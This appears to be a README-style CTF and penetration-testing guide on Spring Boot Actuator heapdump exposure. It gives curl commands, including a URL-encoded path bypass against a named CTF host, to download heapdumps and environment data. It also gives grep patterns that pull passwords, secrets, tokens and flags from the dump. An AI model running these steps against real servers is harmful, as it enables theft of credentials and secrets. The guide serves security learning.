


# Spring Actuator Heapdump Analysis

A comprehensive guide for security researchers and penetration testers on discovering and analyzing Spring Boot Actuator heapdump endpoints to extract sensitive information.

## 🔍 What is Spring Boot Actuator?

Spring Boot Actuator provides production-ready features for monitoring and managing Spring Boot applications. It exposes various endpoints that provide insights into the application's health, metrics, and internals.

**Common Actuator Endpoints:**
- `/actuator/health` - Application health status
- `/actuator/info` - Application information
- `/actuator/env` - Environment properties
- `/actuator/configprops` - Configuration properties
- `/actuator/heapdump` - JVM heap dump (⚠️ **HIGH RISK**)

## 💾 The Heapdump Endpoint

The `/actuator/heapdump` endpoint generates and downloads a complete snapshot of the JVM heap memory. This dump contains:

- All objects currently in memory
- String literals and variables
- Configuration values
- Session data
- Cached credentials
- **Flags and sensitive data** 

### Why is this dangerous?

Heap dumps are meant for debugging in development/staging environments but are sometimes accidentally exposed in production, containing:
- Database passwords
- API keys
- JWT tokens
- User session data
- Application secrets
- **CTF flags**

## 🔍 Discovery Phase

### 1. Standard Actuator Paths

Try these common paths:
```bash
# Standard Spring Boot 2.x paths
/actuator
/actuato%72
/actuator/heapdump
/actuator/dump

# Spring Boot 1.x paths
/dump
/heapdump

# Alternative paths
/management/heapdump
/admin/heapdump
/monitoring/heapdump
/api/usermgm/actuato%72
```

### 2. Discovery with curl

# Direct heapdump attempt
```bash
curl -i https://yellow.ctfio.com/api/usermgm/actuator/env
curl -i https://yellow.ctfio.com/api/usermgm/actuator/heapdump
```

## Downloading Heapdumps

### First Methode (heapdump) Using curl
```bash
# Download the heapdump
curl -o heapdump.hprof https://yellow.ctfio.com/api/usermgm/actuato%72/heapdump

```

## Analyzing Heapdumps

### Method 1: String Analysis (Quick & Dirty)

```bash
# Extract all strings from heapdump
strings heapdump.hprof > heap_strings.txt

# Search for common flag formats
grep -E "flag\{.*\}" heap_strings.txt
grep -E "FLAG\{.*\}" heap_strings.txt
grep -E "ctf\{.*\}" heap_strings.txt
grep -E "[a-zA-Z0-9]{32}" heap_strings.txt  # MD5-like strings

# Search for credentials
grep -i "password" heap_strings.txt
grep -i "secret" heap_strings.txt
grep -i "token" heap_strings.txt
grep -i "key" heap_strings.txt
```



### Second Methode (env)

```bash
curl https://yellow.ctfio.com/api/usermgm/actuato%72/env | jq .
```



## Reference
[play ctf now](https://app.hackinghub.io/hubs/url-maze)
[more about misconfig actuators](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations#common-misconfigurations-in-spring-boot-actuator-15)
[more about misconfig actuators](https://blog.certcube.com/spring-boot-pentesting-part-3-lab-setup/)
[more about misconfig actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)